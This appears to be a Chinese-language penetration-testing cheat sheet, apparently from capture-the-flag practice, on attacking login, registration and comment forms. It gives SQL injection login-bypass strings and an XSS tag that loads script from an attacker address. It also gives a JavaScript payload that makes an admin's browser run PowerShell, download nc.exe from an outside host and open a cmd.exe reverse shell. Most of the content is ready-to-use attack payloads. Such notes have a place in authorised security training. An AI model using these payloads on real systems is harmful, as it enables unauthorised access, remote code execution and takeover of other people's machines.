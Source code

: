 # \*登陆&注册&留言（xss）

### 登陆

1. 注意页面源代码可能包含判断逻辑，注意js文件
2. 考虑sql注入，弱口令，弱逻辑，易得密码本爆破，sql绕过
3. 水平越权测试
4. 如果不管增么登陆都是200，就要考虑rce，多加一个“测试，看能不能造成信息泄漏
5. 登陆测试

```bash
admin' or '1'='1 # 
或者单引号来测试sql
```

### 注册

1. 注册限制，看是否可以绕过（bp构造）
2. 如果可以注册，那就看看能不能水平越权，常利用url（如果显示用户名的话）

```bash
Username: ' or 1='1
Password: ' or 1='1
Confirm password: ' or 1='1
```

### 留言

```bash
<script src="http://10.10.14.5/test.js"></script>
python3 -m http.server 80  --本地开服务器让那边找你这个test.js
```

xss反弹shell

```bash
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.6/nc.exe -outfile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd.exe 10.10.14.6 1234';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);
```

<figure><img src="https://img-blog.csdnimg.cn/1df42e615af34c73b83dcac3122cde78.png" alt=""><figcaption></figcaption></figure>
